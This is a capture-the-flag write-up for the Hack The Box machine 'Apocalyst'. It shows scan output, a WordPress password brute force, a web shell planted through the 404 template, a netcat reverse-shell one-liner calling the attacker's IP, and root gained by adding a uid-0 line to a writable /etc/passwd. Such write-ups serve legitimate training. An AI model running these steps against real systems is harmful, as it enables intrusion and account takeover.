



# Apocalyst
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.46 --min-rate 10000                                                           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 19:06 BST
Warning: 10.10.10.46 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.46 (10.10.10.46)
Host is up (0.10s latency).
Not shown: 57797 filtered tcp ports (no-response), 7736 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 69.43 seconds

```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.46 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 19:12 BST
Nmap scan report for 10.10.10.46 (10.10.10.46)
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
|_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apocalypse Preparation Blog
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.15 seconds
```

- Web Server



- If we add `apocalyst.htb` to `/etc/hosts`, we have a fixed web page


- `wpscan`
```
└─$ wpscan --url http://apocalyst.htb/ -e ap,t,tt,u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]n
[+] URL: http://apocalyst.htb/ [10.10.10.46]
[+] Started: Mon Oct 16 19:16:07 2023

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://apocalyst.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://apocalyst.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://apocalyst.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://apocalyst.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://apocalyst.htb/?feed=rss2, <generator>https://wordpress.org/?v=4.8</generator>
 |  - http://apocalyst.htb/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://apocalyst.htb/wp-content/themes/twentyseventeen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://apocalyst.htb/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Most Popular Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:20 <============================================================================================================================================================> (399 / 399) 100.00% Time: 00:00:20
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] twentyfifteen
 | Location: http://apocalyst.htb/wp-content/themes/twentyfifteen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://apocalyst.htb/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.4
 | Style URL: http://apocalyst.htb/wp-content/themes/twentyfifteen/style.css
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentyfifteen/, status: 500
 |
 | Version: 1.8 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentyfifteen/style.css, Match: 'Version: 1.8'

[+] twentyseventeen
 | Location: http://apocalyst.htb/wp-content/themes/twentyseventeen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://apocalyst.htb/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.2
 | Style URL: http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentyseventeen/, status: 500
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css, Match: 'Version: 1.3'

[+] twentysixteen
 | Location: http://apocalyst.htb/wp-content/themes/twentysixteen/
 | Last Updated: 2023-03-29T00:00:00.000Z
 | Readme: http://apocalyst.htb/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 2.9
 | Style URL: http://apocalyst.htb/wp-content/themes/twentysixteen/style.css
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead ...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentysixteen/, status: 500
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentysixteen/style.css, Match: 'Version: 1.3'

[+] Enumerating Timthumbs (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:02:22 <==========================================================================================================================================================> (2575 / 2575) 100.00% Time: 00:02:22

[i] No Timthumbs Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==============================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] falaraki
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Oct 16 19:19:01 2023
[+] Requests Done: 3039
[+] Cached Requests: 21
[+] Data Sent: 845.594 KB
[+] Data Received: 1.161 MB
[+] Memory used: 288.852 MB
[+] Elapsed time: 00:02:54
```

- `gobuster`
```
└─$ gobuster dir -u http://apocalyst.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50  -x txt,php -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://apocalyst.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 292]
/index.php            (Status: 301) [Size: 0] [--> http://apocalyst.htb/]
/blog                 (Status: 301) [Size: 313] [--> http://apocalyst.htb/blog/]
/events               (Status: 301) [Size: 315] [--> http://apocalyst.htb/events/]
/main                 (Status: 301) [Size: 313] [--> http://apocalyst.htb/main/]
/info                 (Status: 301) [Size: 313] [--> http://apocalyst.htb/info/]
/page                 (Status: 301) [Size: 313] [--> http://apocalyst.htb/page/]
/site                 (Status: 301) [Size: 313] [--> http://apocalyst.htb/site/]
/header               (Status: 301) [Size: 315] [--> http://apocalyst.htb/header/]
/wp-content           (Status: 301) [Size: 319] [--> http://apocalyst.htb/wp-content/]
/post                 (Status: 301) [Size: 313] [--> http://apocalyst.htb/post/]
/text                 (Status: 301) [Size: 313] [--> http://apocalyst.htb/text/]
/book                 (Status: 301) [Size: 313] [--> http://apocalyst.htb/book/]
/art                  (Status: 301) [Size: 312] [--> http://apocalyst.htb/art/]
/start                (Status: 301) [Size: 314] [--> http://apocalyst.htb/start/]
/icon                 (Status: 301) [Size: 313] [--> http://apocalyst.htb/icon/]
/pictures             (Status: 301) [Size: 317] [--> http://apocalyst.htb/pictures/]
/wp-login.php         (Status: 200) [Size: 2460]
/personal             (Status: 301) [Size: 317] [--> http://apocalyst.htb/personal/]
/information          (Status: 301) [Size: 320] [--> http://apocalyst.htb/information/]
/reference            (Status: 301) [Size: 318] [--> http://apocalyst.htb/reference/]
/entry                (Status: 301) [Size: 314] [--> http://apocalyst.htb/entry/]
/license.txt          (Status: 200) [Size: 19935]
/get                  (Status: 301) [Size: 312] [--> http://apocalyst.htb/get/]
/wp-includes          (Status: 301) [Size: 320] [--> http://apocalyst.htb/wp-includes/]
/state                (Status: 301) [Size: 314] [--> http://apocalyst.htb/state/]
/custom               (Status: 301) [Size: 315] [--> http://apocalyst.htb/custom/]
/language             (Status: 301) [Size: 317] [--> http://apocalyst.htb/language/]
/down                 (Status: 301) [Size: 313] [--> http://apocalyst.htb/down/]
/term                 (Status: 301) [Size: 313] [--> http://apocalyst.htb/term/]
/org                  (Status: 301) [Size: 312] [--> http://apocalyst.htb/org/]
/masthead             (Status: 301) [Size: 317] [--> http://apocalyst.htb/masthead/]
...
```

## Foothold/User
- The next part is more CTF-based
  - We can create a wordlist using `cewl`
```
└─$ cewl apocalyst.htb -w apocalyst.htb.wordlist --with-numbers
CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

- Then we `wfuzz` again to find a new `endpoint`
```
└─$ wfuzz -u http://apocalyst.htb/FUZZ/ -w apocalyst.htb.wordlist --hh 157 --hc 404 -t 40
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://apocalyst.htb/FUZZ/
Total requests: 546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000476:   200        14 L     20 W       175 Ch      "Rightiousness"                                                                                                                                                            

Total time: 0
Processed Requests: 546
Filtered Requests: 545
Requests/sec.: 0

```

- Page


- Download the image and run `steghide`
  - Empty password

```
└─$ steghide extract -sf apocalyst.jpg 
Enter passphrase: 
wrote extracted data to "list.txt".
```
```
└─$ head list.txt                                     
World
song
from
disambiguation
Wikipedia
album
page
this
world
Edit
```

- Now we run bruteforce `falaraki` using the list we got from `steghide`
```
└─$ wpscan --url http://apocalyst.htb --passwords list.txt --usernames falaraki
...

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - falaraki / Transclisiation                                                                                                                                                                                                      
Trying falaraki / total Time: 00:00:24 <================================================================                                                                                                 > (335 / 821) 40.80%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: falaraki, Password: Transclisiation

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon Oct 16 19:36:51 2023
[+] Requests Done: 508
[+] Cached Requests: 5
[+] Data Sent: 156.176 KB
[+] Data Received: 1.607 MB
[+] Memory used: 238.828 MB
[+] Elapsed time: 00:00:40

```

- Use the creds to access `admin.php`


- We can edit `404.php` template


- Now we have to find a page that will trigger `404` error code



- And we have our web shell



- Let's get reverse shell
  - url-encode `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.9 6666 >/tmp/f`


## Root
- `/etc/passwd` is writable
```
╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d                                                                                                                                             
                                                                                                                                                                                                                                            
═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ /etc/passwd is writable
═╣ Credentials in fstab/mtab? ........... No
═╣ Can I read shadow files? ............. No
═╣ Can I read shadow plists? ............ No
═╣ Can I write shadow plists? ........... No
═╣ Can I read opasswd file? ............. No
═╣ Can I write in network-scripts? ...... No
═╣ Can I read root folder? .............. No         
```

- Let's create a user
```
└─$ openssl passwd -1 pentest
$1$2pMfZqDY$iE5J/GYlP4weF/pnpYuzH1
```
- Add line in `/etc/passwd`
  - `[user]:[hash including $[type]$[salt]$[hash]]:[userid]:[groupid]:[comment]:[homedir]:[shell]`
```
pentest:$1$2pMfZqDY$iE5J/GYlP4weF/pnpYuzH1:0:0:pentest:,,,:/root:/bin/bash
```

- Change user and get `root.txt`

